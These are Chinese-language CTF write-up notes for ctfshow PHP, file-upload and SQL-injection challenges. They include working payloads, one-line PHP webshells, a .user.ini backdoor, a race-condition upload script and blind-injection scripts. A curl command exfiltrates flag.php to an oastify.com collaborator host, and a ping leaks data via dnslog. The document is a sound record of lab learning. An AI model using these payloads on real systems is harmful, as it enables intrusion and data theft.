    $num=str_replace("0x","1",$num);
    $num=str_replace("0","1",$num);
    $num=str_replace(".","1",$num);
    $num=str_replace("e","1",$num);
    $num=str_replace("+","1",$num);
    return $num;
}
$num=$_GET['num'];
if(is_numeric($num) and $num!=='36' and trim($num)!=='36' and filter($num)=='36'){
    if($num!=='36'){
        echo $flag;
    }else{
        echo "hacker!!";
    }
}else{
    echo "hacker!!!";
}
```

**is_numeric**在数据前面加空格等类似符号可以绕过

<font color='purple'>trim</font>

- " " (ASCII `32` (`0x20`))，普通空格符。
- "\t" (ASCII `9` (`0x09`))，制表符。
- "\n" (ASCII `10` (`0x0A`))，换行符。
- "\r" (ASCII `13` (`0x0D`))，回车符。
- "\0" (ASCII `0` (`0x00`))，空字节符。
- "\x0B" (ASCII `11` (`0x0B`))，垂直制表符。

%0c没有删除，所以**trim**可以用%0c绕过

至于*filter*，虽然%0c里面有0，但是经过URL转换后就变成换页符了，不会有0

最后剩下两个没绕过**$num!=='36'**    **$num=='36'**

貌似矛盾的两个条件

但是看文档后发现，其实

 **!==  与 ===相对**

**!=  与  ==相对**

所以%0c完全可以绕过


### <font color='orange'>web123-web126</font>


#### 123

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?/", $c)&&$c<=18){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
?>
```

在php中变量名只有数字字母下划线，被get或者post传入的**变量名**，如果含有`空格、+、[`则会被转化为`_`，所以按理来说我们构造不出`CTF_SHOW.COM`这个变量(因为含有`.`)，但php中有个特性就是如果传入`[`，它被转化为`_`之后，后面的字符就会被保留下来不会被替换，所以payload为`CTF[SHOW.COM`

然后就是一个**eval**

绕过了很多东西，但是可以直接`echo $flag`

或者

`CTF_SHOW=1&CTF[SHOW.COM=2&fun=echo implode(get_defined_vars())`

**get_defined_vars — 返回由所有已定义变量所组成的数组 **

**implode — 用字符串连接数组元素**  这样就可以**echo**了

或者

`CTF_SHOW=1&CTF[SHOW.COM=2&fun=echo implode($GLOBALS)`

<font color='pink'>**Tips**</font>

**scanfir**   列出指定路径中的文件和目录

```php
<?php
echo implode(scandir('.'));
var_dump(scandir('.'));//当前目录
var_dump(scandir('E:\xampp\htdocs\test'));//绝对路径哦
?>
//运行结果
[Running] php "e:\xampp\htdocs\test\1.php"
Xdebug: [Step Debug] Time-out connecting to debugging client, waited: 200 ms. Tried: 127.0.0.1:9003 (through xdebug.client_host/xdebug.client_port) :-(
....vscode1.phpflag.phpindex.htmlindex.phparray(7) {
  [0]=>
  string(1) "."
  [1]=>
  string(2) ".."
  [2]=>
  string(7) ".vscode"
  [3]=>
  string(5) "1.php"
  [4]=>
  string(8) "flag.php"
  [5]=>
  string(10) "index.html"
  [6]=>
  string(9) "index.php"
}
array(7) {
  [0]=>
  string(1) "."
  [1]=>
  string(2) ".."
  [2]=>
  string(7) ".vscode"
  [3]=>
  string(5) "1.php"
  [4]=>
  string(8) "flag.php"
  [5]=>
  string(10) "index.html"
  [6]=>
  string(9) "index.php"
}
```


#### 125


```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print/i", $c)&&$c<=16){
         eval("$c".";");
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
?>
```

在上一题的基础了过滤了flag和几个打印的函数

但是**highlight_file**可以用

flag在***$c***里面过滤了，但是我可以GET或POST传

POST

`CTF_SHOW=flag.php&CTF[SHOW.COM=&fun=highlight_file($_POST[CTF_SHOW])`

不能直接

`CTF_SHOW=flag.php&CTF[SHOW.COM=&fun=highlight_file($CTF_SHOW)`

这样***fun***还是想当于有flag

还有一种方法，变量覆盖！！！！！

**extract($_POST)**

在challenge中遇到过，这种方法可以覆盖已有的变量值(当然前提还是这句代码可以被执行)

也就是构造payload

POST

`CTF_SHOW=1&CTF[SHOW.COM=2&fun=extract($_POST)&fl0g=flag_give_me`

#### 126

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print|g|i|f|c|o|d/i", $c) && strlen($c)<=16){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}

```

把前两题的payload都禁用了，要想新的办法

找到一个代替**extract**的

<font color='purple'>**parse_str**</font>

 将字符串解析成多个变量

PS:突然发现之前有一题见过

```php
<?php
$str = "first=value&arr[]=foo+bar&arr[]=baz";

// 推荐用法
parse_str($str, $output);
echo $output['first'];  // value
echo $output['arr'][0]; // foo bar
echo $output['arr'][1]; // baz

// 不建议这么用
parse_str($str);
echo $first;  // value
echo $arr[0]; // foo bar
echo $arr[1]; // baz
?> 
```

与**extract**的区别是一个接受数组，一个接受字符串

*接下来解决传值的问题*

在GET和POST都用不了的情况下，只能考虑***$_SERVER['argv']***

**query string是Uniform Resource Locator (URL)的一部分, 其中包含着需要传给web application的数据**

我暂时的理解就是，以GET形式传的数据会被储存在**argv数组**中(注意需要在php.ini开启register_argc_argv配置项)

且**+**为该数组的分隔符(试了空格不行)，然后又不能直接GET传fl0g，所以就

`?a=1+fl0g=flag_give_me`

得到的是

```php
<?php
$f10g=111;
$a=$_SERVER['argv'];
var_dump($a);
echo '<br>';
echo($a[0]);
echo '<br>';
echo($a[1]);
eval($_POST)
?>
array(2) { [0]=> string(3) "a=1" [1]=> string(17) "fl0g=flag_give_me" }
a=1
fl0g=flag_give_me
```

很明显，f10g被覆盖了，`f10g=flag_give_me`这个字符串储存在**a[1]**中

然后POST

`CTF_SHOW=&CTF[SHOW.COM=&fun=parse_str($a[1]) `

还有另一个解法

`GET:?$fl0g=flag_give_me`
`POST:CTF_SHOW=&CTF[SHOW.COM=&fun=assert($a[0])`

<font color='purple'>**assert**</font>

检查一个断言是否为 **`false`**
(断言？不懂，但不重要)

```php
PHP 5

assert(mixed $assertion, string $description = ?): bool

PHP 7

assert(mixed $assertion, Throwable $exception = ?): bool
```

**如果 `assertion` 是字符串，它将会被 assert() 当做 PHP 代码来执行。**

所以执行了`$fl0g=flag_give_me`

好像是个很厉害的函数哦


### <font color='orange'>web127</font>

```php
<?php
error_reporting(0);
include("flag.php");
highlight_file(__FILE__);
$ctf_show = md5($flag);
$url = $_SERVER['QUERY_STRING'];


//特殊字符检测
function waf($url){
    if(preg_match('/\`|\~|\!|\@|\#|\^|\*|\(|\)|\\$|\_|\-|\+|\{|\;|\:|\[|\]|\}|\'|\"|\<|\,|\>|\.|\\\|\//', $url)){
        return true;
    }else{
        return false;
    }
}

if(waf($url)){
    die("嗯哼？");
}else{
    extract($_GET);
}


if($ctf_show==='ilove36d'){
    echo $flag;
}
```

由于 PHP 的变量名不能带「点」和「空格」，在GET传参是会被转换为下划线`[ 和 ]`表示数组，也不行，会被转换

空格没被过滤,GET传`?ctf show=ilove36d`就好了


### <font color='orange'>web128</font>

```php
<?php
error_reporting(0);
include("flag.php");
highlight_file(__FILE__);

$f1 = $_GET['f1'];
$f2 = $_GET['f2'];

if(check($f1)){
    var_dump(call_user_func(call_user_func($f1,$f2)));
}else{
    echo "嗯哼？";
}
function check($str){
    return !preg_match('/[0-9]|[a-z]/i', $str);
}
```

f1过滤了所有数字和字母

php只有一个特殊符号函数**_()**等效于**gettext()**

> You may use the underscore character '_' as an alias to this function. 

<font color='purple'>**gettext**</font>

官方解释

**Looks up a message in the current domain.**

我的理解是，获取这个值，将它储存下来，其实有它没它都可以(当然本题必须要)

```php
<?php
echo gettext("ctfshownb");
//输出结果：ctfshownb
echo _("ctfshownb");
//输出结果：ctfshownb
```

然后f2就是无参包含flag的函数，之前学过的**get_defined_vars()**正好满足

于是,GET`?f1=_&f2=get_defined_vars`


### <font color='orange'>web129</font>


<font color='purple'>**stripos**</font>

> 查找字符串首次出现的位置（不区分大小写）
>
> ```php
> <?php
> $findme    = 'a';
> $mystring1 = 'xyz';
> $mystring2 = 'ABC';
> 
> $pos1 = stripos($mystring1, $findme);
> $pos2 = stripos($mystring2, $findme);
> 
> // 'a' 当然不在 'xyz' 中
> if ($pos1 === false) {
>     echo "The string '$findme' was not found in the string '$mystring1'";
> }
> 
> // 注意这里使用的是 ===。简单的 == 不能像我们期望的那样工作，
> // 因为 'a' 的位置是 0（第一个字符）。
> if ($pos2 !== false) {
>     echo "We found '$findme' in '$mystring2' at position $pos2";
> }
> ?> 
> ```

***第一种***

**readfile**和**highlight_file**类似，路径可以使用绝对路径，在绝对路径之前加几个**../**，最前面的就可以随便写了

`?f=/ctfshow/../../../../../../../var/www/html/flag.php`

***第二种***

远程文件包含，在自己的服务器上写一句话木马进行利用，url为你的服务器ip或者域名，xxxx.txt为你写的一句话木马

```php
?f=http://url/xxxx.txt?ctfshow
```

没打通

***第三种***

使用php伪协议读取

```php
?f=php://filter/read=convert.base64-encode|ctfshow/resource=flag.php
```


### <font color='orange'>web130</font>


```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['f'])){
    $f = $_POST['f'];

    if(preg_match('/.+?ctfshow/is', $f)){
        die('bye!');
    }
    if(stripos($f, 'ctfshow') === FALSE){
        die('bye!!');
    }

    echo $flag;

}
```

第一个正则匹配匹配的是`?ctfshow`即**任意字符(或字符串)加ctfshow**,所以单纯的ctfshow没有匹配

第二个**===**，完全等于，返回值会0也不是全等

所以直接POST传`f=ctfshow`就过了


### <font color='orange'>web131(脚本题)</font>


```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['f'])){
    $f = (String)$_POST['f'];

    if(preg_match('/.+?ctfshow/is', $f)){
        die('bye!');
    }
    if(stripos($f,'36Dctfshow') === FALSE){
        die('bye!!');
    }

    echo $flag;
}
```

本题考的是[正则溢出](https://www.laruence.com/2010/06/08/1579.html)

大概意思就是在php中正则表达式进行匹配有一定的限制，超过限制直接返回false

字符串大概为10w长度溢出了

用py打(当然直接复制粘贴也可以，但我浏览器直接卡崩溃了)

```python
import requests
url = "http://90a1cce1-ed4a-4e70-a3dd-9074d2846224.challenge.ctf.show/"
data = {
    'f': 'dotast'*170000+'36Dctfshow'
}
res = requests.post(url=url, data=data)
print(res.text)
```

**(第一次用py脚本做出来题，这样看起来还挺简单的)**

```html
<code><span style="color: #000000">
<span style="color: #0000BB">&lt;?php
<br />
<br /></span><span style="color: #FF8000">/*
<br />#&nbsp;-*-&nbsp;coding:&nbsp;utf-8&nbsp;-*-
<br />#&nbsp;@Author:&nbsp;h1xa
<br />#&nbsp;@Date:&nbsp;&nbsp;&nbsp;2020-10-13&nbsp;11:25:09
<br />#&nbsp;@Last&nbsp;Modified&nbsp;by:&nbsp;&nbsp;&nbsp;h1xa
<br />#&nbsp;@Last&nbsp;Modified&nbsp;time:&nbsp;2020-10-13&nbsp;05:19:40
<br />
<br />*/
<br />
<br />
<br /></span><span style="color: #0000BB">error_reporting</span><span style="color: #007700">(</span><span style="color: #0000BB">0</span><span style="color: #007700">);
<br /></span><span style="color: #0000BB">highlight_file</span><span style="color: #007700">(</span><span style="color: #0000BB">__FILE__</span><span style="color: #007700">);
<br />include(</span><span style="color: #DD0000">"flag.php"</span><span style="color: #007700">);
<br />if(isset(</span><span style="color: #0000BB">$_POST</span><span style="color: #007700">[</span><span style="color: #DD0000">'f'</span><span style="color: #007700">])){
<br />&nbsp;&nbsp;&nbsp;&nbsp;</span><span style="color: #0000BB">$f&nbsp;</span><span style="color: #007700">=&nbsp;(String)</span><span style="color: #0000BB">$_POST</span><span style="color: #007700">[</span><span style="color: #DD0000">'f'</span><span style="color: #007700">];
<br />
<br />&nbsp;&nbsp;&nbsp;&nbsp;if(</span><span style="color: #0000BB">preg_match</span><span style="color: #007700">(</span><span style="color: #DD0000">'/.+?ctfshow/is'</span><span style="color: #007700">,&nbsp;</span><span style="color: #0000BB">$f</span><span style="color: #007700">)){
<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;die(</span><span style="color: #DD0000">'bye!'</span><span style="color: #007700">);
<br />&nbsp;&nbsp;&nbsp;&nbsp;}
<br />&nbsp;&nbsp;&nbsp;&nbsp;if(</span><span style="color: #0000BB">stripos</span><span style="color: #007700">(</span><span style="color: #0000BB">$f</span><span style="color: #007700">,</span><span style="color: #DD0000">'36Dctfshow'</span><span style="color: #007700">)&nbsp;===&nbsp;</span><span style="color: #0000BB">FALSE</span><span style="color: #007700">){
<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;die(</span><span style="color: #DD0000">'bye!!'</span><span style="color: #007700">);
<br />&nbsp;&nbsp;&nbsp;&nbsp;}
<br />
<br />&nbsp;&nbsp;&nbsp;&nbsp;echo&nbsp;</span><span style="color: #0000BB">$flag</span><span style="color: #007700">;
<br />
<br />}
<br />
<br /></span>
</span>
</code>ctfshow{f0d945be-370c-4034-ba39-8ea1b0195d80}
```


### <font color='orange'>web132</font>


扫后台发现robots.txt 里面有admin(自己骗自己😭😭，不知道为什么根本扫不出来)

```php
<?php
#error_reporting(0);
include("flag.php");
highlight_file(__FILE__);


if(isset($_GET['username']) && isset($_GET['password']) && isset($_GET['code'])){
    $username = (String)$_GET['username'];
    $password = (String)$_GET['password'];
    $code = (String)$_GET['code'];

    if($code === mt_rand(1,0x36D) && $password === $flag || $username ==="admin"){
        
        if($code == 'admin'){
            echo $flag;
        }
        
    }
}
```

就是对**&&**和**||**运算符的理解，首先要知道

**||的优先级大于&&**

所以这句话实际上变为

`if($code === (mt_rand(1,0x36D) && $password === $flag) || $username ==="admin")`

只要后面那个满足就号

payload

`?username=admin&password=1&code=admin`

rd8wr4hg06pkskyz02g51550trzin7.oastify.com


### <font color='orange'>web133-web135(不太懂)</font>


#### 133

先贴个[详解](https://blog.csdn.net/qq_46091464/article/details/109095382)

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|netcat/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("6个字母都还不够呀?!");
    }
}
```

绕过substr的办法

```php
?F=`$F`;
后面加代码
```

原理就是，通过**eval**执行了**F=\`F\`**这个命令，而**\`\`**是**shell_exec()**的缩写

然后就在**shell_exec()**再执行$F，此时你输入在后面的**cmd**就会被执行

后面就是考察linux的命令行能力了

curl -F 将flag文件上传到Burp的 Collaborator Client （ Collaborator Client 类似DNSLOG，其功能要比DNSLOG强大，主要体现在可以查看 POST请求包以及打Cookies）

```php
# payload 
#其中-F 为带文件的形式发送post请求
#xx是上传文件的name值，flag.php就是上传的文件 
?F=`$F`;+curl -X POST -F xx=@flag.php  http://rd8wr4hg06pkskyz02g51550trzin7.oastify.com
```


#### 135

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|bash|sh|netcat|curl|cat|grep|tac|more|od|sort|tail|less|base64|rev|cut|od|strings|tailf|head/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("师傅们居然破解了前面的，那就来一个加强版吧");
    }
}
```

和上题类似，就过滤的多了一点，后面的命令不一样

```php
`$F`;+ping `nl flag.php|awk 'NR==2'`.6x1sys.dnslog.cn
```

ctfshow给的payload，没打通

命令暂时也不懂


### <font color='orange'>web134</font>


```php
<?php
highlight_file(__FILE__);
$key1 = 0;
$key2 = 0;
if(isset($_GET['key1']) || isset($_GET['key2']) || isset($_POST['key1']) || isset($_POST['key2'])) {
    die("nonononono");
}
@parse_str($_SERVER['QUERY_STRING']);
extract($_POST);
if($key1 == '36d' && $key2 == '36d') {
    die(file_get_contents('flag.php'));
}
```

GET和POST都不能传后面要用的key1&key2

但是后面有两个变量覆盖

有关**$_SERVER的**一些变量

> **argv** 之前介绍过
>
> **QUERY_STRING** query string（查询字符串），如果有的话，通过它进行页面访问。 
>
> **REQUEST_URI** 访问此页面所需的URI
>
> **SCRIPT_NAME** 包含当前脚本的路径
>
> **PHP_SELF** 当前正在执行脚本的文件名，后面加路径也会被记	入(如`/index.php/21312.php`，后面的都会被记入此变量)
>
> 例:
>
> ```php
> <?php
> $a=$_SERVER["argv"];
> $b=$_SERVER["QUERY_STRING"];
> $c=$_SERVER["REQUEST_URI"];
> $d=$_SERVER["SCRIPT_NAME"];
> $e=$_SERVER["PHP_SELF"];
> var_dump($a);
> echo '<br>';
> echo $b;
> echo '<br>';
> echo $c;
> echo '<br>';
> echo $d;
> echo '<br>';
> echo $e;
> echo '<br>';
> ?>
> 输出
> array(2) { [0]=> string(12) "F=phpinfo();" [1]=> string(5) "A=123" }
> F=phpinfo();+A=123
> /test/1.php?F=phpinfo();+A=123
> /test/1.php
> /test/1.php
> ```

所以**QUERY_STRING**就是?后面的字符串

传

`?_POST[key1]=36d&_POST[key2]=36d`

```php
var_dump($_POST)
    
输出 array(2) { ["key1"]=> string(3) "36d" ["key2"]=> string(3) "36d" }
```

然后**extract**就可以把key1和key2解析成变量了


### <font color='orange'>web136</font>


```php
<?php
error_reporting(0);
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
else{
    highlight_file(__FILE__);
}
?>
```

> <font color='purple'>**exec**</font>
>
> 执行一个外部程序(就是执行Linux命令)

但是没有把内容输出，这时就要用到linux里的**tee**

`?c=ls /|tee 1`将内容输出到当前目录里的1中

看到文件**f149_15_h3r3**

`?c=cat /f149_15_h3r3|tee 2`得到flag

wp视频介绍了一种骚姿势，看不太懂...


### <font color='orange'>web137-web</font>


#### 137

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}
call_user_func($_POST['ctfshow']);
```

> <font color='purple'>**call_user_func**</font>
>
> 调用类里面的方法的几种办法:
>
> **命名空间的使用**
>
> ```php
> <?php
> 
> namespace Foobar;
> 
> class Foo {
>     static public function test() {
>         print "Hello world!\n";
>     }
> }
> 
> call_user_func(__NAMESPACE__ .'\Foo::test');
> call_user_func(array(__NAMESPACE__ .'\Foo', 'test'));
> 
> ?> 
> Hello world!
> Hello world!
> ```
>
> **调用一个类里面的方法**
>
> ```php
> <?php
> 
> class myclass {
>     static function say_hello()
>     {
>         echo "Hello!\n";
>     }
> }
> 
> $classname = "myclass";
> 
> call_user_func(array($classname, 'say_hello'));//或者call_user_func(array(new myclass(),'say_hello'));
> call_user_func($classname .'::say_hello');//或者call_user_func('myclass::say_hello');
> 
> $myobject = new myclass();
> 
> call_user_func(array($myobject, 'say_hello'));
> 
> ?> 
> ```

#### 138

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}

if(strripos($_POST['ctfshow'], ":")>-1){
    die("private function");
}

call_user_func($_POST['ctfshow']);
```

过滤了冒号，那就用上题提到的调用数组的办法

`ctfshow[]=ctfshow&ctfshow[]=getFlag`

一个变量名，一个函数方法


## 文件上传


### web151


页面提示本题为前台验证，发个空图片，bp抓包，然后放入repeater改文件后缀，加入一句话木马即可。

为了接下来题目顺利，制作一个图片马

> 1.png为一个很小的图片
> 1.php为一句话木马
>
> 命令提示符输入`copy 1.png/b+1.php/a 2.png`得到图片马


### web152


与上题基本一致


### web153


本题需要用到`.user.ini`文件

> php.ini是php的一个全局配置文件，对整个web服务起作用；而.user.ini和.htaccess一样是目录的配置文件，.user.ini就是用户自定义的一个php.ini，我们可以利用这个文件来构造后门和隐藏后门。
>
> 只有 PHP_INI_PERDIR 和 PHP_INI_USER 模式可以

在`.user.ini`中有两个本题会用到的特性

```
auto_prepend_file=filename      //包含在文件头
auto_append_file=filename       //包含在文件尾
```

也就是说，如果`.user.ini`中有`auto_prepend_file=1.png`则所有的php文件头中都会包含这个文件源码

然后再访问`/upload`因为`/upload`中有`index.php`，所以该一句话木马就成功执行


### web154


与上题相比，文件内容过滤了php，使用短标签即可

`<?=eval($_POST['attack']);?>`

在此介绍几种其他写法

1.

```php
<? echo '123';?>
```

前提是开启配置参数short_open_tags=on

2.

```php
<?=(表达式)?>  等价于 <?php echo (表达式)?>
```

不需要开启参数设置

3.

```php
<% echo '123';%>
```

前提是开启配置参数asp_tags=on，**经过测试发现7.0及以上修改完之后也不能使用，而是报500错误，但是7.0以下版本在修改完配置后就可以使用了。**

4.

```php
<script language=”php”>echo '123'; </script>
```

不需要修改参数开关，但是只能在7.0以下可用。


### web155


用上题的方法可以通过


### web156


又多过滤了`[ ]`，改成`{ }`即可

一句话木马后面记得加`exit;`，然后`flag.php改成f*`


### web157


过滤了`{ }`和分号，直接在图片马中执行`<?=system('cat ../f*')?>`算了，反正知道flag位置
其他步骤照常


### web158


与上题一样


### web159


过滤了括号，用反引号来绕过

```php
<?=`tac ../f*`>? 
```


### web160


又过滤了反引号和空格

**第一种办法**

日志文件包含，通过`User-Agent`进行任意php代码执行

payload

```php
<?=include"/var/lo"."g/nginx/access.lo"."g"?>
```

` "." `用于绕过对`log`的过滤

**第二种办法**

利用文件包含和php伪协议直接读取flag

payload

```php
<?=include"ph"."p://filter/convert.base64-encode/resource=../flag.p"."hp"?>
```


### web161


相对于上题多了一个文件头检测

在前面多加一行`GIF89A`就可以了


### web162


首先上传一个`.user.ini`，此时`/upload`的文件夹下的**php文件**都会在文件头包含进`/tmp/sess_xl`，也就是我们之后准备进行**session**上传的文件，而正好`/upload`目录下有一个**index.php**，所以无需额外上传**php**文件(因为你也上传不上去)


接着进行**条件竞争**，因为远程开了**session自动清除**，所以开始条件竞争，就是seesion文件上传，然后访问`/upload`下的`index.php`看是否包含成功

```python
import io
import requests
import threading
url = 'http://f3891486-d788-4541-bdac-8b372684e0c0.challenge.ctf.show/'

def write(session):
    data = {
        'PHP_SESSION_UPLOAD_PROGRESS': '<?php system("ls");?>xl'
    }
    while True:
        f = io.BytesIO(b'GIF89a\nxl')
        files = {'file': ('1.png', f, 'image/png')}
        response = session.post(url+"upload.php",cookies={'PHPSESSID': 'xl'}, data=data, files=files)
def read(session):
    while True:
        response = session.get(url+'upload')
        if 'xl' in response.text:
            print(response.text)
            break
        else:
            print('retry')

if __name__ == '__main__':
    session = requests.session()
    for i in range(30):
        threading.Thread(target=write, args=(session,)).start()
    for i in range(30):
        threading.Thread(target=read, args=(session,)).start()
```


### web163

上题的办法依然可以，但这次用个非预期来写

试了一下后台会自动删除上传的文件（session竞争当然可以


可以利用**十进制vps地址**直接包含一句话木马然后**rce**


 

## sql注入

### <font color='orange'>web174</font>


对sql语句没有任何过滤，仅仅把字母过滤了

所以有三种想法

以下是三种payload

①

```
?id=0' union select replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(to_base64(username),"1","@A"),"2","@B"),"3","@C"),"4","@D"),"5","@E"),"6","@F"),"7","@G"),"8","@H"),"9","@I"),"0","@J"),replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(to_base64(password),"1","@A"),"2","@B"),"3","@C"),"4","@D"),"5","@E"),"6","@F"),"7","@G"),"8","@H"),"9","@I"),"0","@J") from ctfshow_user4 where username="flag" --+
利用replace将数字换为@大写字母
然后转换回去即可
```

②

```
1' union select 1,password from ctfshow_user4 into outfile '/var/www/html/1.txt'--+
直接将结果输出到文件中，然后查看文件即可
```

③

```
1' ascii(substr((select 1,password from ctfshow_user4 where username='flag'),1,1)>0
利用盲注脚本(因为ctfshow有限制，bp爆破会报错)
```


### <font color='orange'>web175</font>


利用上面的第二种办法即可


### <font color='orange'>web177-web182(部分含过滤的注入)</font>


#### 177

过滤了空格  -->  用/**/

#### 178

过滤了*  -->  用tab，转换为url就是%09

#### 179

过滤了tab --> 用换位符，转换为url就是%0c

#### 180

过滤了#,也就是%23 --> 可构造这样的payload来绕过最后的引号

`0'union%0cselect'1',(select%0cpassword%0cfrom%0cctfshow_user%0cwhere%0cusername='flag'),'3`

<font color='red'>这种思想挺重要的，同样类似的也有`and '1'='1`</font>

#### 181&182


过滤了select等相关函数

所以只能利用sql语句本身的一个select

181的第一种解法

`0'||username='flag`

第二种解法，也就是182的解法

182过滤了flag，既然差不了flag，那就查id好了，输数字输到id查不到数据就是flag的id

`0'||id='26`

第三种解法 -- 模糊查询

`0'||username%0clike%0c'%fla%`

当然，用_的模糊查询也可以

第四种解法，正则匹配

`payload1:id=0'||(username)regexp'f`
`payload2:id=0'||(password)regexp'f`

> **regexp**
>
> ```mysql
> select * from club_content where content regexp ‘ctfshow’ #包含ctfshow
> select * from club_content where content regexp ‘^ctfshow’ #以ctfshow开头
> select * from club_content where content regexp ‘ctfshow$’ #以ctfshow结尾
> select * from club_content where content not REGEXP ‘ctfshow’ #不包含ctfshow
> ```
>
> 


### web183


进入页面根据提示，POST传参，以前的题表名为`ctfshow_user`，所以先输一次试试


发现返回22，看过滤发现过滤了挺多东西的`括号 空格 select`可以考虑一下盲注

`tableName=(ctfshow_user)where(pass)like('ctfshow{%')`
或者
`tableName=(ctfshow_user)where(pass)regexp('^ctfshow{')`

回显1

写个脚本

```py
import requests

url='http://65e8d9ec-87c0-40fb-840e-505c4b26b0f6.challenge.ctf.show/select-waf.php'
str='0123456789qwertyuiopasdfghjklzxcvbnm}-'
flag='ctfshow{'
for i in range(0,666):
    for j in str:
        data={"tableName":"(ctfshow_user)where(pass)like'{0}%'".format(flag+j)}
        r=requests.post(url=url,data=data)
        if("$user_count = 1"in r.text):
            flag+=j
            print(flag)
            if j=='}':
                exit()
            break
```


### web184


与上题的payload相比，过滤了`where`和`单引号`，单引号可以用16进制绕过，where的话，介绍两种办法

**方法一**

> **having**
>
> 基本与where类似
>
> 具体区别见:https://blog.csdn.net/yexudengzhidao/article/details/54924471

构造payload

```mysql
tableName=ctfshow_user group by pass having pass like(0x63746673686f7725)
当然 regexp也是可以的
tableName=ctfshow_user group by pass having pass regexp(0x5e63746673686f77)
```

回显1，可行，接下来就是写脚本

```py
import requests

url='http://93be71d0-4f9a-4a2c-b3b3-04791b8749fb.challenge.ctf.show/select-waf.php'
str='0123456789qwertyuiopasdfghjklzxcvbnm}-_'
def asc2hex(s):
    a1=''
    a2=''
    for i in s:
        a1+=hex(ord(i)) #每次编码前面都会有一个0x，所以后面要将0x给替换掉
    a2=a1.replace('0x','')
    return a2

flag=('ctfshow{')
print (asc2hex(flag))
for i in range(0,666):
    for j in str:
        ctf=asc2hex(flag+j)
        data={"tableName":"ctfshow_user group by pass having pass like(0x{0}25)".format(ctf)}
        r=requests.post(url=url,data=data)
        if("$user_count = 1"in r.text):
            flag+=j
            print(flag)
            if j=='}':
                exit()
            break
```

**方法二**

> **right join**
>
> 当然**left join**也可以
>
> 用于获取右表所有记录，即使左表没有对应匹配的记录。
>
> 本题可以理解为新建了一张表，表的数据含有**ctfshow_user**的数据

payload

```mysql
post:tableName=ctfshow_user as a right join ctfshow_user as b on b.pass like 0x63746673686f7725
```

成功回显1，脚本和上题差不多，就mysql语句有变化


### web185

```php
function waf($str){
    return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|[0-9]|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
  }
```

与上题相比多过滤了数字，但是可以用`true`代替数字

```
ture=1   true*97=97  char(true*97)=a   ascii转字符
```

在python中，字符串*数字，就是将这个字符串重复多少遍

得到了这个字符，就想办法连接起来

```mysql
concat('m','s','l')  <==>  'msl'
```

接下来写脚本

```py
import requests

def change(s):
    t='concat('
    for i in s:
        t+='char(true'+'+true'*(ord(i)-1)+'),'
    return t[:-1]+')'

url='http://bc35a1b2-f83b-4679-b420-8aa0fb263b7e.challenge.ctf.show/select-waf.php'
str='0123456789qwertyuiopasdfghjklzxcvbnm}-'
flag='ctfshow{'
for i in range(0,666):
    for j in str:
        data={"tableName":"ctfshow_user group by pass having pass like({0})".format(change(flag+j+'%'))}
        r=requests.post(url=url,data=data)
        if("$user_count = 1"in r.text):
            flag+=j
            print(flag)
            if j=='}':
                exit()
            break
```


### web186


过滤的变多了，但不影响上题的payload，继续用上题的脚本打通


### web187


username已经告诉你了，只需要绕过password这里就可以
这题与`[BJDCTF2020]Easy MD5`相似，只需要构造字符串`ffifdyop`

```php
echo md5("ffifdyop",true);
//结果
'or'6(后面的是不可见字符)
```

在mysql中即(大于0的数字在判断符中就是true)

```mysql
password=''or true
```

所以成功绕过


### web188


```php
 $sql = "select pass from ctfshow_user where username = {$username}";

//密码判断
  if($row['pass']==intval($password)){
